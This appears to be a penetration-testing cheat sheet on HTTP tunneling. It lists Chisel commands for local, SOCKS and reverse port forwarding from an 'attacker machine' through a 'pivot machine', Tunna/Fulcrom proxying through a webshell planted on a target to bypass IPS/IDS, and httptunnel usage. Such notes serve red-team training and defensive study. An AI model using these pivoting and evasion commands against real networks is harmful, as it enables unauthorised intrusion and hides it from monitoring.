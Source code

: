 # ⭕ HTTP Tunneling

## <mark style="color:red;">Chisel Pivoting</mark>

Chisel offers to encapsulate TCP connexions in HTTP tunnels Everything is encrypted using SSH.

```
# Local port forwarding

# Pivot machine
$ chisel server -p 8080 --host 192.168.2.105 -v

# Attacker machine
$ chisel client -v http://192.168.2.105:8080 127.0.0.1:33333:10.42.42.2:80
```

```
# Local port forwarding + SOCKS proxy

# Pivot machine
$ chisel server -p 8080 --host 192.168.2.105 --socks5 -v

# Attacker machine
$ chisel client -v http://192.168.2.105:8080 127.0.0.1:33333:socks
```

```
# Reverse remote port forwarding

# Attacker machine
$ chisel server -p 8888 --host 192.168.2.149 --reverse -v

# Pivot machine
$ chisel client -v http://192.168.2.149:8888 R:127.0.0.1:44444:10.42.42.2:80
```

## <mark style="color:red;">Tunna / Fulcrom</mark>

```
# Everything is through HTTP
# Bypass some IPS/IDS

# First step is to deploy webshell on the target
# Some are available with the tool (but not good)
# Can be hard to use

# Then on the attacker machine
$ python2 proxy.py -u http://192.168.2.105:8080/conn.php -l 7777 -r 80 -a 10.42.42.2 -v
```

## <mark style="color:red;">HTS</mark>

```
apt  install httptunnel
hts --forward-port localhost:8888 1234 # server side
 htc --forward-port 8080 10.11.0.128:1234 # client side
```
